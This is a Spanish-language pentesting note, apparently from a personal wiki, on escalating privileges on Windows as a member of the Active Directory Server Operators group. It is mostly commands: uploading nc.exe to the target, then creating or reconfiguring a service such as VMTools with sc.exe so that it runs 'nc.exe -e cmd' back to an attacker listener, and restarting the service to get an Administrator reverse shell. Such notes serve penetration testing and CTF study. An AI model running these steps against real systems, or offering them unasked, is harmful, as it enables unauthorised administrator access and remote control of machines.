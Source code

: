 ```yaml
---
icon: server
---
```


# A.D. Group Server Operators

Estando dentro de este grupo y pudiendo para y correr servicios del sistema se puede escalar privilegios de la siguiente manera...

Primero veremos en nuestro `host` donde esta el `nc.exe` para que sirva en `Windows`....

```shell
locate nc.exe
```

Info:

```
/usr/share/windows-resources/binaries/nc.exe
```

Nos copiamos ese `.exe` a nuestro directorio actual para pasarlo a la maquina `Windows`...

```shell
cp /usr/share/windows-resources/binaries/nc.exe .
```

Hacemos un `pwd` para ver en la ruta actual en la que estamos y en la que hemos llevado el archivo, en mi caso...

```
/home/kali/Desktop
```

Por lo que en la maquina `Windows` haremos lo siguiente para pasarnoslo...

```shell
upload /home/kali/Desktop/nc.exe
```

Una vez hecho esto ya estaria el `nc.exe` ya estaria en la maquina `Windows`...

Ahora lo que haremos sera arrancar un servicio ya que estamos en el grupo para poder hacerlo, de la siguiente manera haciendo una reverse shell y como lo esta ejecutando por asi decirlo el `administrador` conseguiriamos una shell como el mismo...

```shell
sc.exe create reverse binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

Con esto lo que estamos haciendo es crear un servicio de que cuando se inicie cierto servicio arranque el `nc.exe` que se encuentra en ese `PATH` ejecutando el mismo una `Reverse Shell` con los siguientes paraemtros...

Ahora nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Pero si al crear eso nos pone `Access Denied` manipularemos un servicio que ya este creado de la siguiente manera...

Lo miraremos con `services` los servicios que estan abiertos y eligiendo uno de ellos le cambiaremos la configuracion de la siguiente manera...

```shell
sc.exe config <SERVICE_NAME> binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

> EJEMPLO

```shell
sc.exe config VMTools binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

A lo mejor no te deja con todos los servicios pero es ir probando hasta que te deje cambiarle la configuracion alguno de ellos...

Si encontramos uno que te deje cambiar la configuracion, haremos lo siguiente...

```shell
sc.exe stop <SERVICE_NAME>
```

```shell
sc.exe stop VMTools
```

Y ahora estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Ahora en la maquina `Windows` iniciamos el servicio para que se inicie la `Reverse Shell`...

```shell
sc.exe start <SERVICE_NAME>
```

```shell
sc.exe start VMTools
```

Y con esto ya habriamos conseguido una `Reverse Shell` como `Administrador` en la maquina `Windows`...

